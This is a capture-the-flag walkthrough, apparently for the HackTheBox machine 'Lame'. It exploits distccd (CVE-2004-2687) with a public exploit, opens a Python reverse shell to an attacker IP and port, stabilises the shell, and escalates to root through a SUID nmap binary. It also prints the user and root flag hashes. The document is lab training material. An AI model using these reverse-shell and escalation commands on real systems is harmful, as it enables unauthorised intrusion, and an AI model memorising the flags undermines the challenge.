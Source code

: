 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![](images/Pasted%20image%2020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](images/Pasted%20image%2020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](images/Pasted%20image%2020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![](images/Pasted%20image%2020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](images/Pasted%20image%2020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](images/Pasted%20image%2020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](images/Pasted%20image%2020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](images/Pasted%20image%2020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![](images/Pasted%20image%2020250402155300.png)


